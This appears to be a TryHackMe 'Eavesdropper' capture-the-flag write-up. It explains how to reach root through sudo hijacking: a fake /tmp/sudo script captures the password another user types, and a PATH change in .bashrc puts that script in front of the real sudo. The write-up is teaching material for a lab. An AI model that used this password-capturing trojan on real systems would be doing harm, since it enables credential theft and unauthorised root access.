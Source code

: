 <h1>TryHackMe - Eavesdropper</h1>
<img src="./img/logo.png" alt="logo" width="500">
<a href="https://tryhackme.com/room/eavesdropper">Room Link</a>
<h4>
    There are two ways to solve this machine.
    <ol>
        <li>Intended Way</li>
        <li>Unintended Way</li>
    </ol>
</h4>
<h4>
    You can follow the steps below to solve it using the intended way or you can check out another writeup by
    <code>xyro</code> who found an unintended way to solve this machine which is something very few people would have
    found and his approach to solve this machine is also unique. Link to his write is here => <a
        href="http://xyro.codes/THM/eavesdropper/writeup.html">xyro's writeup</a>
</h4>

<p>
    <strong>Intended way :</strong>
    <ul>
        <li>
            <strong>Step 1 :</strong><br>
            LogIn to the machine using <code>idrsa.id-rsa</code> provided in task 1 with username <code>frank</code>.
        </li>
        <li>
            <strong>Step 2 :</strong><br>
            Transfer <code>pspy</code> onto the target machine and run it for a while.<br>
            There are a few things we notice.<br>
            User frank is logging in via ssh and then running the command <code>sudo cat /etc/shadow</code><br>
            We can perform <code>sudo hijacking</code> on this.
        </li>
        <li>
            <strong>Step 3 :</strong><br>
            Time for <a href="https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-hijacking">sudo
                hijacking</a>.
            While creating our sudo executable, we have to be a little bit creative. Trying to get a reverse shell won't
            be useful. If u hijack sudo so that it spawns a reverse shell instead, the reverse shell u get back would be of
            the frank user because the sudo elevation hasn't happened yet. Instead we can capture the password entered by
            frank using a little bit of shell scripting. (Thanks you xyro for these words 😁).<br>
            Follow these steps to capture the password using our sudo executable.
            <ol>
                <li>
                    <code>touch /tmp/sudo</code> creating our own sudo executable.
                </li>
                <li>content of sudo file <br>
                    <code>
                        #!/bin/bash
                        read -s pass # after executes the command, this will read the password entered by frank and store it in
                        the pass variable
                        echo $pass > /home/frank/pass.txt # echoing the password from pass variable to
                    pass.txt so that we can read it once catured.
                    </code>
                </li>
                <li>
                    <code>chmod +x /tmp/sudo</code>
                </li>
                <li>
                    Modify you <code>$PATH</code> variable using <code>.bashrc</code> <br>
                    <img src="./img/bashrc.png" alt="bashrc"> <br>
                    Save the changes and wait for a few seconds after which you will see a pass.txt which has the password
                    that can be used to switch to root.
                </li>
            </ol>
        </li>
        <li>
            <strong>Step 4 :</strong><br>
            Copy the password from pass.txt and do <code>/usr/bin/sudo su</code> and get the root flag.
        </li>
    </ul>
    <h1>
        Solved 😁
    </h1>
    <p>
        Once you are done with this. <br> Make sure to ckeck out <a href="http://xyro.codes/THM/eavesdropper/writeup.html">xyro's writeup</a><br>
        His method is super awesome 👍🏻
    </p>

</p>